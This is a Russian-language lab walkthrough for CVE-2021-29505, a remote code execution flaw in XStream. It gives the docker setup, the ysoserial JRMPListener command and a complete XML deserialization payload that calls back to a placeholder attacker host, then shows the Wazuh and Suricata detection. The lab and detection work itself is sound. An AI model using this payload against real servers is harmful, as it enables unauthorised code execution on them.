



# CVE-2021-29505

### Материалы

* [https://www.opencve.io/cve/CVE-2021-29505](https://www.opencve.io/cve/CVE-2021-29505)
* [https://x-stream.github.io/CVE-2021-29505.html](https://x-stream.github.io/CVE-2021-29505.html)
* [https://access.redhat.com/security/cve/cve-2021-29505](https://access.redhat.com/security/cve/cve-2021-29505)

XStream - это программное обеспечение для сериализации Java-объектов в XML и обратно. Уязвимость в XStream версий до 1.4.17 может позволить удаленному злоумышленнику, обладающему достаточными правами, выполнять команды хоста только путем манипулирования обрабатываемым входным потоком.

### Эксплуатация уязвимости

> Контейнер с уязвимой средой находится в директории /home/user/Hackathon/vulhub-master/stream/CVE-2021-29505

Для запуска уязвимого сервера Springboot + XStream 1.4.16 выполните команду:

```
docker compose up -d
```

После запуска по адресу http://ваш-ip:8080 будет доступная веб-страница, отправив на которую следующий POST-запрос, мы можем протестировать успешность запуска среды

```
POST / HTTP/1.1
Host: ваш-ip:8080
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: application/xml
Content-Length: 99

<?xml version="1.0" encoding="UTF-8"?>
<user>
  <name>Test</name>
  <age>11</age>
</user>
```

Для эксплуатации уязвимости нужно поднять зловредный RMI-регистр с помощью JRMPListener из архива [ysoserial](https://github.com/frohoff/ysoserial/releases/download/v0.0.6/ysoserial-all.jar)

Для этого выполните команду:

```
java -cp ysoserial-all.jar ysoserial.exploit.JRMPListener 1099 CommonsCollections6 "touch /tmp/success"
```

<figure><figcaption></figcaption></figure>

Этот RMI-реестр, получив запрос, возвращает вредоносный сериализованный объект, созданный с помощью гаджета CommonsCollections6.

Отправьте следующий POST-запрос на уязвимый сервер, чтобы проэксплуатировать уязвимость удаленного выполнения кода:

```
POST / HTTP/1.1
Host: ваш-ip:8080
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: application/xml
Content-Length: 3113

<java.util.PriorityQueue serialization='custom'>
    <unserializable-parents/>
    <java.util.PriorityQueue>
        <default>
            <size>2</size>
        </default>
        <int>3</int>
        <javax.naming.ldap.Rdn_-RdnEntry>
            <type>12345</type>
            <value class='com.sun.org.apache.xpath.internal.objects.XString'>
                <m__obj class='string'>com.sun.xml.internal.ws.api.message.Packet@2002fc1d Content</m__obj>
            </value>
        </javax.naming.ldap.Rdn_-RdnEntry>
        <javax.naming.ldap.Rdn_-RdnEntry>
            <type>12345</type>
            <value class='com.sun.xml.internal.ws.api.message.Packet' serialization='custom'>
                <message class='com.sun.xml.internal.ws.message.saaj.SAAJMessage'>
                    <parsedMessage>true</parsedMessage>
                    <soapVersion>SOAP_11</soapVersion>
                    <bodyParts/>
                    <sm class='com.sun.xml.internal.messaging.saaj.soap.ver1_1.Message1_1Impl'>
                        <attachmentsInitialized>false</attachmentsInitialized>
                        <nullIter class='com.sun.org.apache.xml.internal.security.keys.storage.implementations.KeyStoreResolver$KeyStoreIterator'>
                            <aliases class='com.sun.jndi.toolkit.dir.LazySearchEnumerationImpl'>
                                <candidates class='com.sun.jndi.rmi.registry.BindingEnumeration'>
                                    <names>
                                        <string>aa</string>
                                        <string>aa</string>
                                    </names>
                                    <ctx>
                                        <environment/>
                                        <registry class='sun.rmi.registry.RegistryImpl_Stub' serialization='custom'>
                                            <java.rmi.server.RemoteObject>
                                                <string>UnicastRef</string>
                                                <string>атакующий-ip</string>
                                                <int>1099</int>
                                                <long>0</long>
                                                <int>0</int>
                                                <long>0</long>
                                                <short>0</short>
                                                <boolean>false</boolean>
                                            </java.rmi.server.RemoteObject>
                                        </registry>
                                        <host>атакующий-ip</host>
                                        <port>1099</port>
                                    </ctx>
                                </candidates>
                            </aliases>
                        </nullIter>
                    </sm>
                </message>
            </value>
        </javax.naming.ldap.Rdn_-RdnEntry>
    </java.util.PriorityQueue>
</java.util.PriorityQueue>
```

После отправки атакующий хост получит запрос от уязвимого хоста и вернет вредоносный объект

<figure><figcaption></figcaption></figure>

После этого будет создан файл "/tmp/success", что свидетельствует об успешной эксплуатации

В Wazuh ([https://ваш-ip/app/wazuh](https://xn---ip-5cdj7k/app/wazuh)) мы можем увидеть соответствующие алерты от IDS Suricata о сериализации полезной нагрузки Java ("touch tmp/success")

<figure><figcaption></figcaption></figure>
